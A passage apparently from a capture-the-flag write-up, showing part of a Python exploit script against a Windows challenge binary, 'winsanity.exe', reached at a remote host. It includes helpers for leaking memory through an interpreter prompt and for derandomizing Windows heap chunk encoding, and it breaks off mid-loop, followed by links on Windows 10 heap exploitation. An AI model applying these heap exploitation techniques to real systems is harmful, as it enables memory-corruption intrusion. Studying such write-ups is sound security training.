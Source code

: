 ```python
    if DEBUG:
        p = Process(r'..\dist\winsanity.exe')
        #p.timeout = 10000000
        #p.spawn_debugger(x96dbg = True, sleep = 3)
    else:
        p = Remote('183.107.102.15', 17324)
        p.timeout = 5000


    log.info('Connection established.')


    def interp(s):
        p.sendline(s)
        return p.recvuntil('>>> ', drop=True).strip()

    def recv_int_arr(var):
        res = interp('print ' + var)
        res = res.replace('[', ' ').replace(']', ' ' ).replace(',', ' ').split()
        res = list(int(e) & 0xffffffff for e in res)
        return res

    def d2q(d2):
        return (d2[0] & 0xffffffff) | ((d2[1] & 0xffffffff) << 32)

    def q2d(q):
        return (q & 0xffffffff, (q >> 32) & 0xffffffff)

    def SSCEncode(zero_ssc, base, stride, offset, idx, fake_offset):
        offset_zero = stride * 0 + offset
        addr_zero = base + offset_zero
        offset_idx = stride * idx + offset
        addr_idx = base + offset_idx
        return zero_ssc ^ (addr_idx >> 4) ^ (addr_zero >> 4) ^ (fake_offset << 12) ^ (offset_zero << 12)

    # derandomizer assumes that only lower 2 bytes change for simplicity
    def derandomizer(base, stride, offset, leaks):
        assert(leaks.count(0) == 1)  # last chunk assertion
        last_chunk = leaks.index(0)
        chunk_count = len(leaks)
        
        # pre-build pair XOR leaks
        pair_xor_map = {}
        for i in range(chunk_count):
            offset_i = stride * i + offset
            addr_i = base + offset_i
            for j in range(i + 1, chunk_count):
                offset_j = stride * j + offset
                addr_j = base + offset_j
                xor = (addr_i >> 4) ^ (addr_j >> 4) ^ (offset_i << 12) ^ (offset_j << 12)
                if xor in pair_xor_map:  # we can do better, but i'm lazy :)
                    pair_xor_map[xor] |= set((i, j))
                else:
                    pair_xor_map[xor] = set((i, j))
        
        idx = []
        for i in range(chunk_count):
            if i == last_chunk:
                idx.append(chunk_count)
                continue
            intersect_idx = set(range(1, chunk_count))
            for j in range(chunk_count):
```

[PDBEX]: https://github.com/wbenny/pdbex
[REF1]: https://www.slideshare.net/AngelBoy1/windows-10-nt-heap-exploitation-english-version
[REF2]: https://github.com/peleghd/Windows-10-Exploitation/blob/master/Low_Fragmentation_Heap_(LFH)_Exploitation_-_Windows_10_Userspace_by_Saar_Amar.pdf